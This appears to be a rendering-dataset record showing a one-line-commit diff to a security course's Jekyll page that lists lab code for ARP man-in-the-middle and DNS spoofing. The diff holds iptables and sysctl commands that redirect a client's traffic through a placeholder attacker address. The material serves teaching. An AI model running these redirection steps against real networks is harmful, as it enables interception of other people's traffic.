

Before and after one commit to ycpcs/cs335-spring2022, a Jekyll site: the page built from code/index.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
add link

````diff
--- a/code/index.md
+++ b/code/index.md
@@ -64,13 +64,13 @@
 -->
 
 #### ARP
-- man in the middle atacks: [mintm.py]()
+- man in the middle atacks: [mintm.py](arp\mintm.html)
 - Add firewall rule on the client
-  - sudo iptables -t nat -A OUTPUT -p tcp --dport 8000 -j DNAT --to-destination _attacker_ip_address_
+  - ```sudo iptables -t nat -A OUTPUT -p tcp --dport 8000 -j DNAT --to-destination _attacker_ip_address_```
 - Rules on the attacker
-  - sudo sysctl -w net.ipv4.ip_forward=1
-  - sudo iptables -t nat -A PREROUTING -p tcp --dport 8000 -j DNAT --to-destination _server_ip_address_
-  - sudo iptables -t nat -A POSTROUTING -j MASQUERADE
+  - ```sudo sysctl -w net.ipv4.ip_forward=1```
+  - ```sudo iptables -t nat -A PREROUTING -p tcp --dport 8000 -j DNAT --to-destination _server_ip_address_```
+  - ```sudo iptables -t nat -A POSTROUTING -j MASQUERADE```
 
 #### DNS
 - [dns_spoof.py](dns\dns_spoof.html)
````
